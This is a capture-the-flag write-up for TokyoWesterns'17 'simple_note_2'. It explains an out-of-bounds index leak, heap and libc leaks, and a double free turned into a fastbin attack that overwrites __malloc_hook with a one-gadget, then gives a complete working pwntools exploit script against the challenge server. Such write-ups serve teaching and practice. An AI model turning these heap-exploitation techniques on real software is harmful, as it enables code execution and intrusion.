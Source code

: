 ```yaml
---
layout: post
comments: true
title: Note Version 2 - TokyoWesterns'17 (148pts)
---
```


Second part of the note challenge.

```
gef➤  checksec 
[+] checksec for '/home/sanat/tokyo-westerns'17/simple_note_2'
Canary                        : Yes →  value: 0x3eecb7f615243000
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Full
gef➤  

```

This time full RelRO.

There is OOB (Out of bounds error) in all functions that take input for index.

```
Input index of note.
-4
Content:� ��
+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=
1. Add a note.
2. Show a note.
3. Delete a note.
4. Exit.
+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=+=
Your choice:
```

So whatever index we pass, it dereferences it and then prints out its content. Sadly we can't leak libc like this since we would need a pointer to a libc function. But few bytes behind, we have a target which can easily leak the .text section of the binary.


```
gef➤  x/20xg 0x0000000100000000 + 0x202060 - 128
0x100201fe0:	0x00007ffff7a784d0	0x00007ffff7a47030
0x100201ff0:	0x0000000000000000	0x00007ffff7a472d0
0x100202000:	0x0000000000000000	0x0000000100202008 <-- Target
0x100202010:	0x0000000000000000	0x0000000000000000
0x100202020 <stdout>:	0x00007ffff7dd2620	0x0000000000000000
0x100202030 <stdin>:	0x00007ffff7dd18e0	0x0000000000000000
0x100202040 <stderr>:	0x00007ffff7dd2540	0x0000000000000000
0x100202050:	0x0000000000000000	0x0000000000000000
0x100202060:	0x0000000100203010	0x0000000000000000 <-- Start of our list array which holds pointers to heap.
0x100202070:	0x0000000000000000	0x0000000000000000

```

## Heap Leak

Our input string is not null terminated. So we can do a heap spray of fastbins and leak heap. ( We can also leak arena pointers but there is a much better way to do that).

```

gef➤  x/20xg 0x100203000
0x100203000:	0x0000000000000000	0x0000000000000021
0x100203010:	0x0000000000000000	0x0000000000000000
0x100203020:	0x0000000000000000	0x0000000000000021
0x100203030:	0x000000010020300a	0x0000000000000000 <-- our \x0a is not null terminated
0x100203040:	0x0000000000000000	0x0000000000020fc1

```

## Libc Leak

Now since we know .text address and heap base, we know the distance and hence can calculate the distance. Divide by 8 and we get index. So now we technically control out pointer. We can just set a pointer to got address as our heap data (when creating new note) and then pass in that index. Likewise we set a pointer to a note also and thus possess 2 pointers to 1 note --> double free --> fastbin attack --> straightforward malloc_hook attack.

## Malloc_hook Attack

There's a blog by [uafio](uaf.io) where he describes how to create a fastbin near malloc_hook.

```
0x7ffff7dd1af0 <_IO_wide_data_0+304>:	0x00007ffff7dd0260
gef➤  
0x7ffff7dd1af8:	0x0000000000000000
gef➤  
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a92e20
gef➤  
0x7ffff7dd1b08 <__realloc_hook>:	0x00007ffff7a92a00
gef➤  
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000
```
We overwrite with magic gadget.

## Full exploit code.

```
#!/usr/bin/python
from pwn import *

elf = ELF("./libc.so.6")
p = remote("pwn2.chal.ctf.westerns.tokyo", 18554)
#p = process("./simple_note_2",env={"LD_PRELOAD":"./libc.so.6"})
raw_input()

def menu():
	p.recvuntil("choice:")

def add_note(size,content):
	menu()
	p.sendline("1")
	p.recvuntil("note.")
	p.sendline(str(size))
	p.recvuntil("note.")
	p.sendline(content)

def show_note(idx,n):
	menu()
	p.sendline("2")
	p.recvuntil("note.")
	p.sendline(str(idx))
	p.recvuntil("Content:")
	return p.recv(n)

def delete_note(idx):
	menu()
	p.sendline("3")
	p.recvuntil("note.")
	p.sendline(str(idx))

# Use index to leak. Then put index = m such that it points to heap !!
# Then freeing can cause double free.

lol = "A"*11
leak = show_note(-11,6)
print leak
print len(leak)
leak += "\x00"*2
leak = u64(leak)
text = leak - 0x202008
log.info("Text section: " + hex(text))

start = text + 0x202060

puts_got = text + 0x0000000000201f90

# Leak heap.
add_note(100,lol)
add_note(100,lol)
delete_note(1)
delete_note(0)
add_note(100,"")

leak = show_note(0,6)
leak += "\x00"*2
leak = u64(leak)
heap = leak - 0xa
log.info("Heap: " + hex(heap))

# set got address.
delete_note(0)
victim = heap + 0x80
buf = p64(puts_got)
buf += p64(victim)
add_note(100,buf)

# Now attack.
index = (heap - start)/8
index += 2

leak = show_note(index,6)
leak += "\x00"*2
leak = u64(leak)
libc = leak - elf.symbols['puts']
log.info("Libc: " + hex(libc))

# Double free.
delete_note(0)
index+=1
delete_note(index)

malloc_hook = libc + 0x3c4af5-8
buf = p64(malloc_hook)
add_note(100,buf)

lol = "X"*8
lol += p64(victim)
add_note(100,lol)
add_note(100,lol)

magic = libc + 0x4526a
magic = libc + 0xf0274

buf = "X"*19
buf += p64(magic)
add_note(100,buf)

# Trigger double free error.
print index
#p.interactive()
delete_note(index)
delete_note(0)

p.interactive()
```
